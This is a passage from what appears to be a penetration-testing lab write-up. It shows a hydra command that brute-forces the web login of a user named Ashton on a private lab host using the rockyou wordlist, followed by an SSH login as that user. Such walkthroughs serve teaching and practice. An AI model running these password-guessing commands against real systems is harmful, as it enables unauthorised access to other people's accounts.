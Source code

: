 ![17](Images1/17.PNG)

![18](Images1/18.PNG)

### **Bruteforce:**

Now that we have some usernames and a main target - Ashton, using hydra we can attempt to bruteforce the login for the _secret\_folder_.

Ashton, the CEO, had a common password within our password list. Using the following command, we could get Ashton&#39;s password.

```
hydra -l ashton -P /opt/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get "/company_folders/secret_folder"
```

![19](Images1/19.PNG)

### **SSH:**

```
ssh ashton@192.168.1.105
```
